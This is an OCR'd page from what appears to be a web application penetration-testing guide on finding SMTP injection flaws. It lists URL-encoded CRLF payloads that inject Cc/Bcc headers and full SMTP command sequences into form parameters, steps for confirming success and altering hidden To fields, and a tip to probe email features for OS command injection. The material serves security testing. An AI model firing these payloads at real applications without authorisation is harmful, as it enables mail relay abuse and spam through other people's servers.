
## Finding SMTP Injection Flaws
> HACK STEPS
>> 1. You should submit each of the following test strings as each parameter in turn, inserting your own e-mail address at the relevant position:
>> 
>>> `<youremail>%0aCc:<youremail>`
>>
>>> `<youremail>%0d%0aCc:<youremail>`
>>
>>> `<youremail>%0aBcc:<youremail>`
>>
>>> `<youremail>%0d%0aBcc:<youremail>`
>>
>>> `%0aDATA%0afoo%0a%2e%0aMAIL+FROM:+<youremail>%0aRCPT+TO:+<youremail>%0aDATA%0aFrom:+<youremail>%0aTo:+<youremail>%0aSubject:+test%0afoo%0a%2e%0a`
>>
>>> `%0d%0aDATA%0d%0afoo%0d%0a%2e%0d%0aMAIL+FROM:+<youremail>%0d%0aRCPT+TO:+<youremail>%0d%0aDATA%0d%0aFrom:+<youremail>%0d%0aTo:+<youremail>%0d%0aSubject:+test%0d%0afoo%0d%0a%2e%0d%0a`
>>
>> 2. Note any error messages the application returns. If these appear to relate to any problem in the e-mail functioin, investigate whether you need to fin-tune your input to exploit a vulnerability.
>> 3. The application's responses may not indicate in any way whether a vulnerability exists or was successfully exploited. You should monitor the e-mail address you specified  to see if any mail is received.
>> 4. Review closely the HTML form that generates the relevant request. This may contain clues about the server side software being used. It may also contain a hidden or disabled field that specifies the e-mail's To address, which you can modify directly.

**TIP: Functions to send e-mails to application support personnel are frequently regarded as peripheral and may not be subject to the same security standards or testing as the mail application functionality. Also , because they involve interfacing to an unusual back-end component, they are often implemented via a direct call to the relevant operating system command. Hence, in addition to probing for SMTP injection, you should also closely review all e-mail related functionality for OS command injection flaws.**

